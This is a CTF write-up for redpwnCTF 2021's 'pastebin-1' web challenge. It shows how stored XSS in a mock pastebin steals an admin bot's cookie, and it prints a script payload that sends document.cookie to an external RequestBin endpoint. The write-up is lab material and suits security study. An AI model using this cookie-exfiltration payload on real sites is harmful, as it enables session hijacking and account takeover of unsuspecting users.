 ```yaml
---
path: "/writeups/redpwn-2021"
date: 2021-07-09
title: "redpwnCTF 2021"
category: "writeup"
enabled: True
---
```


Link: https://ctf.redpwn.net/

***

# pastebin-1
### Category: web
### Author: BrownieInMotion

## Description
Ah, the classic pastebin. Can you get the admin's cookies?

## Solution
For this challenge, we are given two links. One is a mock pastebin website where you can enter text, submit it, and be given a link to where it persists. The second link is a website that allows you to redirect a bot to a specific url.

Based on the nature of the websites and the description it's fairly clear that this is a classic XXS challenge. The mock pastebin website allows JavaScript that we write to be injected into the DOM of whoever visits the page. We can exploit this to steal a person's cookie. First, I created a public [RequestBin](https://requestbin.com/) as an endpoint for our exploit. Then I created a new paste with the following content:

```html
<script>
document.write('<img src="https://en2enweozjgy8.x.pipedream.net?c='+document.cookie+'" />');
</script>
```

I then took the link to the newly created paste and fed it to the admin bot. The flag then appeared as a GET parameter in the RequestBin.

![Request Bin](./images/inspect-me/requestbin.png)
